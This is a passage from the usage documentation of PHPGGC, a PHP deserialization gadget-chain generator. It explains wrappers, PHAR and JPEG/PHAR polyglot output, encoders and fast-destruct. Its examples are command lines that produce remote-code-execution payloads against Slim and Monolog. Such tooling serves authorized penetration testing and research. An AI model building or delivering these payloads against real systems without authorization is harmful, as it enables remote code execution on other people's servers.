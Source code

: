 And you'd call phpggc like so:

```
$ ./phpggc -w /tmp/my_wrapper.php slim/rce1 system id
a:1:{s:7:"message";O:18:"Slim\Http\Response":2:{...}}
```

## PHAR(GGC)

### History

At BlackHat US 2018, @s_n_t released PHARGGC, a fork of PHPGGC which instead of building a serialized payload, builds a whole PHAR file. This PHAR file contains serialized data and as such can be used for various exploitation techniques (`file_exists`, `fopen`, etc.). The paper is [here](https://cdn2.hubspot.net/hubfs/3853213/us-18-Thomas-It's-A-PHP-Unserialization-Vulnerability-Jim-But-Not-As-We-....pdf).

### Implementation

PHAR archives come in three different formats: **PHAR, TAR, and ZIP**. The three of them are supported by PHPGGC.
Polyglot files can be generated using `--phar-jpeg` (`-pj`). Other options are available (use `-h`).

### Examples

```
$ # Creates a PHAR file in the PHAR format and stores it in /tmp/z.phar
$ ./phpggc -p phar -o /tmp/z.phar monolog/rce1 system id
$ # Creates a PHAR file in the ZIP format and stores it in /tmp/z.zip.phar
$ ./phpggc -p zip -o /tmp/z.zip.phar monolog/rce1 system id
$ # Creates a polyglot JPEG/PHAR file from image /tmp/dummy.jpg and stores it in /tmp/z.zip.phar
$ ./phpggc -pj /tmp/dummy.jpg -o /tmp/z.zip.phar monolog/rce1 system id
```


## Encoders

Arguments allow to modify the way the payload is output. For instance, `-u` will URL encode it, and `-b` will convert it to base64.
**Payloads often contain NULL bytes and cannot be copy/pasted as-is**. Use `-s` for a soft URL encode, which keeps the payload readable.

The encoders can be chained, and as such **the order is important**. For instance, `./phpggc -b -u -u slim/rce1 system id` will base64 the payload, then URLencode it twice.


## Advanced: Enhancements

### Fast destruct

PHPGGC implements a `--fast-destruct` (`-f`) flag, that will make sure your serialized object will be destroyed right after the `unserialize()` call, and not at the end of the script. **I'd recommend using it for every `__destruct` vector**, as it improves reliability. For instance, if PHP script raises an exception after the call, the `__destruct` method of your object might not be called. As it is processed at the same time as encoders, it needs to be set first.
